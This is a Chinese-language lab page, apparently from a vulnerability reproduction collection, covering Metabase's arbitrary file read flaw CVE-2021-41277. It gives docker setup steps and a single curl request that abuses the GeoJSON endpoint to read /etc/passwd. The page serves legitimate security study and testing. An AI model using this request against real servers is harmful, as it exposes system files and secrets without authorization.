


Metabase任意文件读取漏洞（CVE-2021-41277）¶
Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。
参考链接：
- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277
环境搭建¶
执行如下命令启动一个Metabase 0.40.4版本服务器：
docker compose up -d
服务启动后，访问http://your-ip:3000可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

漏洞复现¶
只需要使用CURL即可简单地复现这个漏洞：
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
可见，/etc/passwd已经被成功读取：
